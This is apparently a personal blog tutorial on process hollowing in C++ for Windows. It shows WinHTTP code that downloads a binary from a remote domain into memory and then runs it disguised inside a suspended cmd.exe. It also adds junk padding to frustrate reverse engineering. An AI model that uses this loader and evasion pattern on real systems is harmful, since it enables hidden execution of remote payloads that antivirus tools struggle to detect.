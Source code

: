 {
    "title": "Process Hollowing",
    "description": "Executing protected C++ code from memory",
    "tags": ["Hacking", "Windows", "C++"],
    "author": "Noah",
    "date": "1/13/2023",
    "showTitle": true,
    "indexed": true
}
### Introduction
> Process hollowing is a technique to run executable, binary code, while disguised as a different process. It is mainly used by malware to replace the code of a running, trusted program with its own, making it very difficult to detect. Although its main use is to evade detection by anti-viruses, process hollowing also has a legitimate use.
>
> More information about process hollowing can be found at [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)

We can use process hollowing to run a process without having an executable file stored on the disk, which is very useful in preventing reverse-engineering of our code. If there is no executable file stored on the disk, there is no executable file that can be opened in IDA. There's probably some other method to decompile code running through process hollowing, but this still greatly increases the difficulty in reverse-engineering.

### Downloading Binary Data
We will use WinHTTP to download a file from the internet into a temporary buffer.

First, we open an `HINTERNET` session object and initialize its connection to the domain our binaries are stored on.

            HINTERNET hSession = WinHttpOpen(USER_AGENT, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
            HINTERNET hConnection = WinHttpConnect(hSession, DOWNLOAD_DOMAIN, (DOWNLOAD_USE_HTTPS ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT), 0);

Here, `USER_AGENT` is defined as a default User Agent (`Mozilla/5.0 (X11;...`) and `DOWNLOAD_DOMAIN` is the domain where our binaries are hosted (`strayfade.com` in this case)
`DOWNLOAD_USE_HTTPS` is defined as `true` so that we connect on port 443 which is used for HTTPS.

            HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", DOWNLOAD_PATH, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

 - `L"GET"` tells WinHTTP to create a `GET` request
 - `DOWNLOAD_PATH` is the path of the binaries on the server (`/cdn/file...`)
 - `WINHTTP_DEFAULT_ACCEPT_TYPES` tells WinHTTP to accept binary data
 - `WINHTTP_FLAG_SECURE` tells WinHTTP that this data is served over HTTPS.

            WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0))
            WinHttpReceiveResponse(hRequest, NULL)

The above code sends the request and reads the response into the `hRequest` variable. Below, we get the size of the transferred data to allocate memory for it.

            DWORD contentLength = 0;
	        DWORD contentLengthBufferSize = 128;
            WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &contentLength, &contentLengthBufferSize, WINHTTP_NO_HEADER_INDEX)
	        unsigned char* buffer = new unsigned char[contentLength];

Next, we have to read the response into the array
            
            DWORD bytesRead = 0;
            WinHttpReadData(hRequest, (LPVOID)buffer, contentLength, &bytesRead);

### Creating a process
> I learned about most of this from the [adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing) repository on GitHub, so credit goes to them for some bits of this code.

First, we have to create a dummy process to be "hollowed":

            CreateProcessA((LPSTR)HOST_PROCESS, nullptr, nullptr, nullptr, TRUE, CREATE_SUSPENDED, nullptr, nullptr, &SI, &PI);

What's important here is the `HOST_PROCESS` variable and `CREATE_SUSPENDED` flag. `HOST_PROCESS` is a path (string) to the executable to hollow. For our use, this is set to the absolute path of `cmd.exe`. The `CREATE_SUSPENDED` flag tells `CreateProcessA` to suspend the process as soon as it is created, letting us replace its PE image before it starts.

We also need to check whether or not the running executable is compatible (has the same architecture as our replacement code). To do this, I'm using functions from the `Process-Hollowing` repository:

            BOOL bTarget32;
		    IsWow64Process(PI.hProcess, &bTarget32);
            ProcessAddressInformation ProcessAddressInformation = { nullptr, nullptr };
            ProcessAddressInformation = GetProcessAddressInformation64(&PI); // Get base address of process to hollow
            const BOOL bSource32 = IsPE32(hFileContent); // hFileContent is a cast of buffer to type LPVOID

            // Subsystem check
            DWORD dwSourceSubsystem = GetSubsytem64(hFileContent);
            DWORD dwTargetSubsystem = GetSubsystemEx64(PI.hProcess, ProcessAddressInformation.lpProcessImageBaseAddress);
            if (dwSourceSubsystem != dwTargetSubsystem) return;

Finally, we do the actual process hollowing

		    BOOL bHasReloc = HasRelocation64(hFileContent);
            if (!bHasReloc) { RunPE64(&PI, hFileContent); }
            else { RunPEReloc64(&PI, hFileContent); }

### More Important Things
One neat thing we can do to confuse reverse-engineerers is to pad our executable with junk code, since the whole program only ends up at about 16kb. There aren't many programs that small, so we need to add junk code to make our process hollowing look like it's just running the original program. I added 2mb of filler to the program, since the binaries we were downloading were around that size.

            CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Pad, 0, 0, 0); // This runs in a thread after the process hollowing has finished.

### References 
 - [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
 - [https://github.com/adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing)
 - [https://github.com/kernelm0de/RunPE-ProcessHollowing](https://github.com/kernelm0de/RunPE-ProcessHollowing)